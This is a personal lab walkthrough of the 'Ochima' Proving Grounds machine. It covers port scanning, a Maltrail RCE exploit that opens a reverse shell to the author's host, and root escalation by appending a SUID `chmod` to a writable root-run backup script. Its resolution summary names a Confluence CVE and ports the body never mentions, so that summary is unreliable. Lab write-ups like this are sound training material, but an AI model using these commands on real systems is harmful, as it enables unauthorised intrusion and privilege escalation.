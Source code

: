 ```yaml
---
Date: 2024-10-13
Course: "[[OSCP]]"
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: Complete
IP: 192.168.117.32
Writeup: https://medium.com/@0xrave/ctf-200-01-offsec-proving-grounds-practice-labor-day-ctf-machine-walkthrough-702633e20940
---
```

# Ochima
This one was an exercise in frustration purely because the exploit didn't seem to work on the port I wanted it to (`4444`) but *would* work on port `80`!? 

I tired all sorts of things to get it work, the walkthroughs didn't explain why they used port 80, and the exploit itself indicated it'd work on whatever I picked... but the moment I popped port 80 into the exploit's reverse shell parameters I got an incoming connection. So an important reminder that if a reverse shell isn't working on port `4444` then try the same thing but with a listener on port `80` instead

Once I had initial access, privilege escalation wasn't hugely complicated - I spotted the `.tar` backup file pretty quickly, and after running `linpeas.sh` I saw the `etc_Backups.sh` script too. Part of me worried that I'd need to find a way to execute the script if it wasn't scheduled, or that I wouldn't have write access, but after checking with `ls -lah` I saw it was wide open, and I could have uploaded `pspy` to see if it was running too.

All round a bit frustrating to lean on a walkthrough to figure out initial access, but the walkthrough didn't help much anyway - it just told me the exploit *could* work, and it took me realising the walkthroughs both happened to use port 80 before I tried it myself.

**Note**: My initial `nmap` scan didn't show up port `8338`, so this was an important reminder to run a wider and more aggressive scan if there's no obvious way forward (or just start by running `sudo nmap -p- -T5 192.168.xx.xxx -v` followed by an aggressive port specific scan)

**Note2**: Don't forget to scan UDP if the TCP scan doesn't show much - most of the time you'll find nothing, but if you do it'll be a big deal.
# Resolution summary
- Ran Nmap to identify ports `22` & `8080`
- Visited http (`8090`) & identified `Confluence v7.13.6`
- Identified exploit for CVE-2022-26134 and ran against target for reverse shell
- Uploaded `pspy` and identified `log-backup.sh` being run regularly by `root`
- Added command to change `/bin/bash` SUID and waited for script to run
- Ran `/bin/bash -p` to become `root`
## Improved skills
- Linux Privilege Escalation
- Handling reverse shells
## Used tools
- nmap
- python
- linpeas.sh

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -Pn -n 192.168.117.32 -sC -sV -p- --open -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
8338/tcp open  unknown
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: Maltrail/0.52
|     Date: Sun, 13 Oct 2024 07:41:59 GMT
|     Connection: close
|     Content-Type: text/html
|     Last-Modified: Sat, 31 Dec 2022 22:58:57 GMT
|     Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src * blob:; script-src 'self' 'unsafe-eval' https://stat.ripe.net; frame-src *; object-src 'none'; block-all-mixed-content;
|     Cache-Control: no-cache
|     Content-Length: 7091
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta http-equiv="X-UA-Compatible" content="IE=edge">
|     <meta http-equiv="Content-Type" content="text/html;charset=utf8">
|     <meta name="viewport" content="width=device-width, user-scalable=no">
|     <meta name="robots" content="noindex, nofollow">
|     <title>Maltrail</title>
|     <link rel="stylesheet" type="text/css" href="css/thirdparty.min.css">
|     <link rel="stylesheet" type="text/css" hre
|   HTTPOptions: 
|     HTTP/1.0 501 Unsupported method ('OPTIONS')
|     Server: Maltrail/0.52
|     Date: Sun, 13 Oct 2024 07:41:59 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 500
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 501</p>
|     <p>Message: Unsupported method ('OPTIONS').</p>
|     <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data.
```
---
# Enumeration
## Port 22 - SSH (OpenSSH 8.9p1)
No enumeration conducted
## Port 80 - HTTP (Apache 2.4.52)
- Navigated to `http://192.168.117.32:80` and identified `Apache2 Defauly Page`
![[Cybersecurity-Resources/images/Pasted image 20241013175715.png]]
- Ran `gobuster dir -u http://192.168.117.32 -w //usr/share/dirb/wordlists/big.txt` to enumerate web directories
![[Cybersecurity-Resources/images/Pasted image 20241013180308.png]]
## Port 8338 - HTTP (Apache 2.4.52)
- Navigated to `http://192.168.117.32:80` and identified `Maltrail v.052`
![[Cybersecurity-Resources/images/Pasted image 20241013181247.png]]
	- Potentially vulnerable to CVE-2023–27163
---
# Exploitation
- Identified exploit `Maltrail-RCE.py` from https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py - copied to local host 
- Setup Netcat listener on port `80` then ran `python3 Maltrail-RCE.py 192.168.45.250 80 http://192.168.117.32:8338` to catch reverse shell as user `snort`
![[Cybersecurity-Resources/images/Pasted image 20241013190836.png]]
---
# Lateral Movement to user
## Local Enumeration
- Ran `cat /home/snort/local.txt` to print `a00aea52796dcd16e3d4e840f16bd277`
![[Cybersecurity-Resources/images/Pasted image 20241013190954.png]]
- Ran `cat /etc/passwd` to enumerate users
![[Cybersecurity-Resources/images/Pasted image 20241013191808.png]]
- Ran `sudo -l` and found `sudo` requires `snort` password
![[Cybersecurity-Resources/images/Pasted image 20241013191909.png]]
- Uploaded & ran `linpeas.sh`
![[Cybersecurity-Resources/images/Pasted image 20241013193004.png]]
- Identified interesting files
![[Cybersecurity-Resources/images/Pasted image 20241013193341.png]]
- Identified possible private SSH keys
![[Cybersecurity-Resources/images/Pasted image 20241013193432.png]]
- Identified interesting writeable files including `/var/backups/etc_Backup.sh`
![[Cybersecurity-Resources/images/Pasted image 20241013193641.png]]
---
# Privilege Escalation
- Ran `ls -lah /var/backups/etc_Backup.sh` to identify script privileges
![[Cybersecurity-Resources/images/Pasted image 20241013194807.png]]
- Ran `echo "chmod +s /bin/bash" >> /var/backups/etc_Backup.sh` to add command to script to change set privileges for `/bin/bash`
![[Cybersecurity-Resources/images/Pasted image 20241013195006.png]]
- Waited a few minutes for script, then ran `/bin/bash -p` to achieve `root`
![[Cybersecurity-Resources/images/Pasted image 20241013195139.png]]
- Ran `cat /root/proof.txt` to print `8f730f4db61f48dd3810007f95fa9e61`
![[Cybersecurity-Resources/images/Pasted image 20241013195335.png]]
---
# Trophy & Loot
`local.txt` = `a00aea52796dcd16e3d4e840f16bd277`
`root.txt` = `8f730f4db61f48dd3810007f95fa9e61`